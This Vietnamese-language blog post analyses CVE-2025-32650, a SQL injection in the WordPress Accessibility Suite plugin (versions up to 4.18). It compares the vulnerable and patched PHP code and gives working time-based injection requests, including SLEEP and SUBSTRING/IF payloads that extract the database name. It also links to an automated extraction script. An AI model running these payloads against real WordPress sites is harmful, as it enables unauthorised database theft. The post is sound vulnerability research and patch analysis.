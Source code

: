 ```yaml
---
title: CVE-2025-32650 Analysis & POC
description: Security Vulnerability in WordPress Accessibility Suite Plugin.
date: 2025-09-09 10:36:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, sqli]
---
```


## Introduction
Lỗ hổng xảy ra trên plugin **Accessibility Suite** của WordPress trước phiên bản **4.19**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
- **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 4.18
- **CVSS severity**: High (8.5) 
- **Required Privilege**: Subscriber

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Accessibility Suite**:  v4.18(vul) và v4.19(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis
Ứng dụng chưa thực hiện ép kiểu cho **input** và mặc dù có sử dụng `prepare()` để chống SQLi, nhưng do triển khai không đúng nên lỗ hổng SQLi vẫn tồn tại.

### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **includes/classes/Helper.php**

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
```
{: file="includes/classes/Helper.php v4.18" }

Bản vá đã truyền `$scan_id` như tham số vào câu query. SQL injection được phòng ngừa vì biến không được nối trực tiếp vào query nữa.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```
{: file="includes/classes/Helper.php v4.19" }

![patch diff](assets/img/posts/2025-09-09-CVE-2025-32650/patch_diff.png)

### How it work? 
Lỗ hổng nằm trong hàm tĩnh `save_false_positive` của class `Helper` thuộc file **includes/classes/Helper.php**. Để xác định nơi nó được gọi, ta tìm kiếm với tự khóa `save_false_positive` trong thư mục chứa plugin.

![search 1](assets/img/posts/2025-09-09-CVE-2025-32650/search_1.png)

👉 `save_false_positive` được `callback` của action hook `wp_ajax_ONLINE_ADAv4/save_false_positive` gọi. 

Khi **POST** request được gửi đến `/wp-admin/admin-ajax.php` với `action`=`ONLINE_ADAv4/save_false_positive` callback được gọi.
Trong request cần 2 **POST** param `issue_id` và `scan_id`. Nếu không, ứng dụng sẽ trả về:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

`save_false_positive` được gọi với đối số `issue_id` và `scan_id`. Các đối số này sẽ bị escape bởi [**magic quotes**](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress vì lấy trực tiếp từ **POST** request.

Ứng dụng check xem người dùng có quyền truy cập vào trang admin không. Nếu không, trả về chuỗi rỗng.

```php
if(! is_admin()) {
    return '';
}
```

Sau đó các đối số trực tiếp truyền vào câu query chứa lỗ hổng SQLi rồi thực thi.

## Exploit
### Detect SQLi

Gửi **POST request** chứa payload SQLi. Vì chỉ cần là user có quyền truy cập vào trang admin, nên ta tạo user với `role:subcriber` có **privilege thấp nhất**.

Trong WordPress, user có role cao hơn sẽ kế thừa cả **privilege** role thấp hơn. Nên chỉ cần user `subcriber` gửi payload thành công thì tất cả user còn lại đều có thể. Đúng với mô tả của CVE

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

Khi đó câu query sẽ trở thành 

```sql
SELECT list FROM  wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

![time response](assets/img/posts/2025-09-09-CVE-2025-32650/time_response.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

- **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng với truy vấn trước đó.
- **Subquery**:
    - **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
    - **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính. 

![SQL Excution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png)

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì như phân tích [ở trên](#how-it-work), `scan_id` sẽ bị escape.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

### Automatic Extraction
Dựa trên kĩ thuật **Timebased SQLi** ta viết script để tự động khai thác.

[Script Here](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-09-09-CVE-2025-32650/script.py)

## Conclusion
Lỗ hổng **CVE-2025-32650** trong plugin WordPress **Accessibility Suite** trước phiên bản **4.19** xuất phát từ việc triển khai không đúng hàm `$wpdb->prepare()` dẫn đến lỗ hổng SQL Injection.

Bản vá chính thức đã triển khai đúng `$wpdb->prepare`, giúp đảm bảo dữ liệu đầu vào được kiểm soát và an toàn hơn.

**Key takeaways**:

- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection ](https://wordpress.org/plugins/online-accessibility/)